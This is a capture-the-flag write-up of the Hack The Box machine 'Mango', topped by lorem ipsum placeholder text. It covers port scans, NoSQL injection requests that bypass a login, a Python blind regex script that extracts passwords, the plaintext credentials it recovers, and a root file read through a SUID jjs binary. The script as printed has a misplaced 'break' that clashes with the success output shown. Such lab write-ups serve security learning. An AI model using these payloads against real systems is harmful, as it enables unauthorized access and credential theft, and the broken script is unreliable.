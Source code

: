 ```yaml
---
title: Mango - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-11-14
image: images/mango_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/mango_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. nmap -Pn -sC -sV -n mango.htb
    PORT    STATE SERVICE VERSION
    22/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
    |   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
    |_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
    80/tcp  open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: 403 Forbidden
    443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Mango | Search Base
    | ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
    | Not valid before: 2019-09-27T14:21:19
    |_Not valid after:  2020-09-26T14:21:19
    |_ssl-date: TLS randomness does not represent time
    | tls-alpn:
    |_  http/1.1
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  nmap -Pn -sV -n -p- mango.htb
    PORT    STATE SERVICE VERSION
    22/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp  open  http    Apache httpd 2.4.29 ((Ubuntu))
    443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  nmap -Pn -sV -n -sU mango.htb
    All 1000 scanned ports on mango.htb (10.10.10.162) are closed

2. Enum with dirb and nikto, loot:
    Login Page: http://staging-order.mango.htb   (also shown in nmap ssl-script)

3. Browsing https://mango.htb/analytics.php gives you a key and that it's applicable for *codepen.io, add it to host-file
    root@p3:~/Downloads# cat /etc/hosts
      10.10.10.162	mango.htb staging-order.mango.htb mango.htb.codepen.io

    Browsing the site https://mango.htb.codepen.io/analytics.php now gives us analytic data over startups in different states.

4. Connecting to Elasticsearch and using some random table gives us data from /User/iansadovy/Downloads/Entities.cvs
    POSSIBLE USERNAME: iansadovy

5. Trying NoSQL Injection (via Burp) on the login page reveals that the username is admin.
   Request with 'testuser' returns Response '200 OK', but request with user 'admin' returns '302 Found', confirming the user.
    REQUEST
      POST / HTTP/1.1
      Host: staging-order.mango.htb
      username=testuser&password[$gt]=&login=login
    RESPONSE
      HTTP/1.1 200 OK

    REQUEST
      POST / HTTP/1.1
      Host: staging-order.mango.htb
      username=admin&password[$gt]=&login=login
    RESPONSE
      HTTP/1.1 302 Found

6. In order to get the password we need a script go through every character to see if we get 302 or 200 responses.
   From the following two sites I found examples of Blind NoSQL Injection using POST.
    .. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#post-with-json-body
    .. https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/

   I used the script from 0daylabs as my base and modified it to fit my objective, complete script below.

     import requests
     import string
     import re

     pw = ""
     url = "http://staging-order.mango.htb/index.php"

     # Each time a 302 redirect is seen, we should restart the loop
     restart = True

     while restart:
         restart = False

         # Characters like *, ., &, and + has to be avoided because we use regex
         for i in string.ascii_letters + string.digits + "!#%&'(),/:;<=>@[]^_`{}~-":
             payload = pw + i
             post_data = {'username': 'admin', 'password[$regex]': "^" + re.escape(payload) + ".*", 'login': 'login'}
             #print(post_data)
             r = requests.post(url, data=post_data, allow_redirects=False)
             #print(r)

             # A correct password means we get a 302 redirect
             if r.status_code == 302:
                 print(payload)
                 restart = True
                 pw = payload

             break

    NOTE: In the end I got stuck with regex and special characters. re.escape() and "^" infront of the payload solved it.

7. Run the script to extract the password and login.
   NOTE: Creds - admin:t9KcS3>!0B#2

   root@p3:/opt/htb/machines/mango# python pwExtract.py
      t
      t9
      t9K
      t9Kc
      t9KcS
      t9KcS3
      t9KcS3>
      t9KcS3>!
      t9KcS3>!0
      t9KcS3>!0B
      t9KcS3>!0B#
      t9KcS3>!0B#2
    root@p3:/opt/htb/machines/mango#

8. Modify the script to enumerate users. We know of user admin, so using the script will stop on A. Using burp I found another
   user starting with M. Entered M as the starting letter in the script and run it:

   root@p3:/opt/htb/machines/mango# python userExtract.py
      ma
      man
      mang
      mango
   root@p3:/opt/htb/machines/mango#

   Extract the password for user Mango.
   root@p3:/opt/htb/machines/mango# python pwExtract.py
      h
      h3
      h3m
      h3mX
      h3mXK
      h3mXK8
      h3mXK8R
      h3mXK8Rh
      h3mXK8RhU
      h3mXK8RhU~
      h3mXK8RhU~f
      h3mXK8RhU~f{
      h3mXK8RhU~f{]
      h3mXK8RhU~f{]f
      h3mXK8RhU~f{]f5
      h3mXK8RhU~f{]f5H
   root@p3:/opt/htb/machines/mango#

   NOTE: Creds - mango:h3mXK8RhU~f{]f5H

9. Using SSH to login with admin-creds doesn't work, but with mango-creds it does. Looking in /home/admin we can see user.txt
   but can't read it. Change user to admin to get the flag.

    mango@mango:/home/admin$ cat user.txt
      cat: user.txt: Permission denied
    mango@mango:/home/admin$ su admin
    $ cat user.txt
      79bf****************************

ALL FOUND CREDS:
  admin:t9KcS3>!0B#2
  mango:h3mXK8RhU~f{]f5H
  iansadovy:
  MrR3boot:
  root:


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. SSH in as user mango and pivot to admin. Upgrade the shell, python isn't available so user python3 instead.
    $ python3 -c 'import pty;pty.spawn("/bin/bash")'
    admin@mango:/home/mango$

2. Running lse.sh gives ut two binaries with SUID bit set
    [!] fst020 Uncommon setuid binaries........................................ yes!
    ---
    /usr/bin/run-mailcap
    /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
    ---

3. Looking at gftobins jjs has a lot of exploits, the one that worked for me is "File Read". Trying to use "Sudo" or "Shell" made the
   shell non-interactive / stuck. Using "Reverse Shell" I wasn't able to get a callback, so I opted towards the easy "File Read".

   admin@mango:/dev/shm$ vi read.sh
   admin@mango:/dev/shm$ chmod +x read.sh
   admin@mango:/dev/shm$ ./read.sh
     Warning: The jjs tool is planned to be removed from a future JDK release
     jjs> var BufferedReader = Java.type("java.io.BufferedReader");
     jjs> var FileReader = Java.type("java.io.FileReader");
     jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
     jjs> while ((line = br.readLine()) != null) { print(line); }
     8a8e****************************

   NOTE: To get an interactive root-shell you can also use "File Write" and write your public key to /root/.ssh/authorized_keys

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


MongoDB NoSQLi:
  https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#post-with-json-body
  https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/

GTFOBINS:
  https://gtfobins.github.io/gtfobins/jjs/
